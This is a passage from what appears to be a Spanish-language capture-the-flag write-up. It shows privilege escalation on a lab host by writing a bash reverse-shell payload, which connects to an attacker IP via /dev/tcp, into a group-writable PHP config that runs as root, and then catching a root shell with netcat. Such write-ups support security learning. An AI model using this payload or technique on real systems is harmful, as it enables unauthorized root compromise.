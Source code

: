 ~~~ bash
albert@alert:~$ ls -l /opt/website-monitor/config
total 4
-rwxrwxr-x 1 root management 49 Mar 22 21:41 configuration.php

albert@alert:/opt/website-monitor$ cat config/configuration.php 
<?php
define('PATH', '/opt/website-monitor');
?>

albert@alert:/opt/website-monitor$ id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
~~~

Agregamos una reverse shell al archivo `configuration.php`, podemos usar `nano`

~~~ bash
albert@alert:/opt/website-monitor/config$ nano configuration.php
~~~

> `PHP Payload`

~~~ php
exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.x.x/port 0>&1'");
~~~

El archivo debería lucir más o menos de la siguiente forma. Antes de guardar los cambios, pondremos un puerto a la escucha con `netcat`

~~~ bash
nc -lvnp 4646
~~~

Posteriormente, guardaremos el archivo y saldremos de nano con `Ctrl +X`, daremos dos veces a `Y`

~~~ bash
<?php
exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.254/4646 0>&1'");
define('PATH', '/opt/website-monitor');
?>
~~~

Al cabo de unos segundos, deberíamos recibir la conexión como usuario `root`

~~~ bash
nc -lvnp 4646
listening on [any] 4646 ...
connect to [10.10.14.254] from (UNKNOWN) [10.10.11.44] 51640
bash: cannot set terminal process group (1007): Inappropriate ioctl for device
bash: no job control in this shell
root@alert:~# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~



